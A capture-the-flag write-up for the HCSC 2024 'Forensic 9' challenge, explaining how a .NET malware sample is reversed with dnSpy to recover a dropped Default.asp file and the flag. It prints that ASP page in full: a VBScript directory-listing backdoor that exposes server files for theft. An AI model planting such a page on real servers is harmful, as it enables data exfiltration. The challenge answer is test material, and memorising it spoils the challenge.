


# HCSC 2024 - Forensic 9.

## Description

We need to know what the payload of the malware contains, what it does exactly, so it’s time to reverse engineering a bit. 

There is a flag inside the malware – yes, in flag format.


## Metadata

- Tags: `dnspy`, `iis`, `default.asp`, `exfiltration`
- Points: `500`
- Number of solvers: `11`
- Filename: -

## Solution

The `init.dll` file identified in the previous challenge is a .NET binary, so it can be analyzed with `DNSpy`. The binary does nothing but decompress a `GZIP` byte sequence and save it as `Default.asp` to the `C:\Windows\System32\CertSrv\en-US\Internal\` folder. 





After copying and unpacking the bytes, we get the following code and the flag.

```html
<%@ Language=VBScript%><HTML><HEAD><%response.write("<TITLE>hcsc{meghoztam_a_parizert_letettem_az_asztalra};</TITLE>")%></HEAD><BODY><%set FileSysObj=CreateObject("Scripting.FileSystemObject"): strFileAndPath = request.servervariables("SCRIPT_NAME"): strFullPath = server.mappath(Mid(strFileAndPath,1 ,InStrRev(strFileAndPath, "/"))): set fldr=FileSysObj.GetFolder(strFullPath): response.write("<H1>"&strFullPath&"</H1><H2>Folders</H2>"): For Each FolderIndex in fldr.SubFolders: Response.Write("<A HREF='"&FolderIndex.name&"'>"&FolderIndex.name&"</A><BR>"): Next: response.write("<H2>Files</H2>"): For Each FileIndex in fldr.Files: Response.Write("<A HREF='"&FileIndex.name&"'>"&FileIndex.name&"</A><BR>"): Next%></BODY></HTML>
```

This file is used to allow the data theft to take place. Sensitive `MOK_` files can be downloaded via the IIS server.

The task can also be solved by running `GamingMonitor.exe` on the DC as `Administrator` and opening the resulting `Default.asp` file in the `C:\Windows\System32\CertSrv\en-US\Internal\` folder.

Flag: `hcsc{meghoztam_a_parizert_letettem_az_asztalra}`